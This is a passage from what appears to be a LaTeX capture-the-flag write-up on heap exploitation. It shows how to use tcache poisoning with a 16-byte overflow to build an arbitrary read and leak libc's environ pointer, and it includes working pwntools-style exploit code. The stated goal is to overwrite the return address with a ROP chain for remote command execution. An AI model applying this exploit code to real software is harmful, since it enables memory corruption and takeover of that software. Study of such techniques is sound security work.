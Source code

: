     \paragraph{craft arbitrary read and leak environ with tcache poisoning attack}
    At this point we have all the leaks, in most heap exploits you need to craft arbitrary read and write, with these two techniques it is possible to perform many attacks.\newline
    First we will create an arbitrary read to leak the environ.\newline
    Environ is a pointer that usually points to the stack and is useful because it will always be at the same offset away from the return addres.\newline
    So the plan is to leak environ so as to understand how far away we are from the return address and then overwrite the return address with a rop and do remote command execution.\newline
    The technique we will use to leak environ is very reminiscent of the one to leak base heap.\newline
    In fact we can allocate two chunks with a size that will allow us to place them in tcache once they are freed and contiguous,  having 16 bytes of overflow we will be able to overwrite the size of the next previously freed one and overwrite the fd field with the environ address.\newline
    Then reallocate the chunk and inspect it, thus effectively leaking the environ.\newline
    Below is the code that allowed me to leak environ:\newline
    \begin{verbatim}
        malloc(0x78,3) # 3
        malloc(0x78,4) # 4 
        malloc(0x78,5) # 4 
        delete(5)
        delete(4) # 4
        edit(3,b"A"*0x78+p64(0x81)+p64(libc.sym.environ^key))
        malloc(0x78,4)  
        malloc(0x78,5) 
        view(5)
        io.recvuntil(b"note : ")
        environ=u64(io.recvline(False).ljust(8,b"\x00"))
        success(f"ENVIRON LEAK@: {hex(environ)} ")
    \end{verbatim}
      \clearpage
